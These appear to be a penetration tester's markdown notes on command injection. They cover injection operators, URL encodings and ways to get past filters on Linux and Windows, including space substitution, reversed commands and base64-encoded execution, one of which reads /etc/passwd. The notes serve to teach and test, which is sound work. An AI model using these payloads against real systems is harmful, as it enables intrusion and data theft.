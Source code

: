 # Command Injection Notes

If some type of functionality is given with input we can enter try to abuse, like in the case of a website with a ping checker.

## Cheat sheets

Injection Operators
|Injection Operator|	Injection Character |	URL-Encoded Character 	|Executed Command|
|:----|:----|:----|:----|
|Semicolon |	; 	|%3b |	Both|
|New Line| 	\n |	%0a 	|Both|
|Background| 	& 	|%26 	|Both (second output generally shown first)|
|Pipe 	| 	%7c 	|Both |(only second output is shown)|
|AND 	|&& 	|%26%26 	|Both (only if first succeeds)|
|OR 	|\|\| |	%7c%7c| 	Second (only if first fails)|
|Sub-Shell |	`` 	|%60%60 	|Both (Linux-only)|
|Sub-Shell| 	$() 	|%24%28%29 	|Both (Linux-only)|

## Linux
|Code| 	Description|
|:----|:----|
|printenv 	|Can be used to view all environment variables|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|${IFS} 	|Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())|
|{ls,-la} 	|Commas will be replaced with spaces|

### Other Characters 	
|Code| 	Description|
|:----|:----|
|${PATH:0:1} |	Will be replaced with / |
|${LS_COLORS:10:1} 	|Will be replaced with ;|
|$(tr '!-}' '"-~'<<<[) 	|Shift character by one ([ -> \)|

### Blacklisted Command Bypass

### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|$@ or \ 	|Linux only|

### Case Manipulation 	
|Code| 	Description|
|:----|:----|
|$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") |	Execute command regardless of cases|
|$(a="WhOaMi";printf %s "${a,,}") 	|Another variation of the technique|

### Reversed Commands 	
|Code| 	Description|
|:----|:----|
|echo 'whoami' \| rev |	Reverse a string|
|$(rev<<<'imaohw') 	|Execute reversed command|

### Encoded Commands 	
|Code| 	Description|
|:----|:----|
|echo -n 'cat /etc/passwd \| grep 33' \| base64 	|Encode a string with base64|
|bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)| 	Execute b64 encoded string|

## Windows
|Code| 	Description|
|:----|:----|
|Get-ChildItem Env: 	|Can be used to view all environment variables - (PowerShell)|

### Spaces 	
|Code| 	Description|
|:----|:----|
|%09 	|Using tabs instead of spaces|
|%PROGRAMFILES:~10,-5% |	Will be replaced with a space - (CMD)|
|$env:PROGRAMFILES[10] |	Will be replaced with a space - (PowerShell)|

### Other Characters 	
|Code| 	Description|
|:----|:----|
|%HOMEPATH:~0,-17% 	|Will be replaced with \ - (CMD)|
|$env:HOMEPATH[0] |	Will be replaced with \ - (PowerShell)|

### Blacklisted Command Bypass

### Character Insertion 	
|Code| 	Description|
|:----|:----|
|' or " 	|Total must be even|
|^ 	|Windows only (CMD)|

### Case Manipulation 
|Code| 	Description|
|:----|:----|
|WhoAmi 	|Simply send the character with odd cases|

### Reversed Commands 	
|Code| 	Description|
|:----|:----|
|"whoami"[-1..-20] -join '' |	Reverse a string|
|iex "$('imaohw'[-1..-20] -join '')" 	|Execute reversed command|

### Encoded Commands 	
|Code| 	Description|
|:----|:----|
|[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))| 	Encode a string with base64|
|iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))" 	|Execute b64 encoded string|
